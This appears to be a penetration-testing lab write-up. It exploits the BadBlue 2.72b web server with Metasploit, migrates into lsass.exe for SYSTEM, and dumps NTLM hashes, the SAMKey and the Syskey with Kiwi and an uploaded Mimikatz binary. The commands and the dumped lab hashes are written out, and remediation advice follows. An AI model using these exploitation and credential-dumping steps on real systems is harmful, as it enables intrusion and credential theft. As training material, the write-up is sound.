# Windows: Meterpreter Kiwi Extension

**Classification:** Host & Network Penetration Testing / System & Host-Based Attacks<br>
**Target:** 10.2.16.175 (ATTACKDEFENSE) — Windows, BadBlue 2.72b on port 80<br>
**Attacker:** 10.10.41.5 (Kali)<br>

**Flags**
- Administrator NTLM hash: `e3c61a68f1b89ee6c8ba9507378dc88d`
- Student NTLM hash: `bd4ca1fbe028f3c5066467a7f6a73b0b`
- Syskey: `377af0de68bdc918d22c57a263d38326`

## 1. Executive Summary

The target runs the vulnerable **BadBlue 2.72b** web server. We exploit it with the
`badblue_passthru` module for a Meterpreter session, migrate into `lsass.exe` to run as
SYSTEM, then load the **Kiwi** (Mimikatz) extension. `creds_all` and `lsa_dump_sam` dump the
NTLM hashes for Administrator and Student plus the SAM/Syskey; uploading the Mimikatz binary
provides deeper `lsadump::sam` / `lsadump::secrets` output.

## 2. Recon

```bash
ping -c 4 10.2.16.175
nmap -sV 10.2.16.175
```





Port 80 runs **BadBlue** (2.7).



## 3. Exploiting BadBlue

```bash
service postgresql start && msfconsole
```



```bash
search badblue
use exploit/windows/http/badblue_passthru
set RHOSTS 10.2.16.175
exploit
```









## 4. SYSTEM via lsass Migration

Already in an administrator context, migrating into `lsass.exe` gives SYSTEM.

```bash
migrate <lsass PID>
getuid          # NT AUTHORITY\SYSTEM
```



## 5. Kiwi (Mimikatz) Extension

```bash
load kiwi
```



Dumping all credentials — the Administrator NTLM hash appears under msv.

```bash
creds_all
```

```
Administrator  ATTACKDEFENSE  NTLM: e3c61a68f1b89ee6c8ba9507378dc88d
```



Dumping the SAM for all accounts, including the Syskey/SAMKey.

```bash
lsa_dump_sam
```

```
SAMKey: 858f5bda5c99e45094a6a1387241a33d
RID 500  Administrator  NTLM: e3c61a68f1b89ee6c8ba9507378dc88d
Student        NTLM: bd4ca1fbe028f3c5066467a7f6a73b0b
Syskey: 377af0de68bdc918d22c57a263d38326
```





## 6. Mimikatz Binary

Uploading the Mimikatz executables into a new `Temp` folder.

```bash
mkdir C:\\Temp
upload mimikatz.exe C:\\Temp\\
```





Running Mimikatz and checking privileges.

```
privilege::debug
```



`lsadump::sam` yields fuller detail than the extension.

```
lsadump::sam
```



> `lsadump::secrets` and `sekurlsa::logonpasswords` were also run, but the host is
> well-configured and returned no cleartext passwords.

## 7. Remediation Recommendations

1. **Patch/replace BadBlue** — it is unmaintained and remotely exploitable.
2. **Protect LSASS** with Credential Guard and LSA Protection (RunAsPPL) to block Mimikatz
   dumping.
3. **Disable WDigest** cleartext caching (already the case here) and limit who has local
   admin/SYSTEM.
4. **Rotate exposed hashes/passwords** and enforce LAPS for unique local admin credentials.
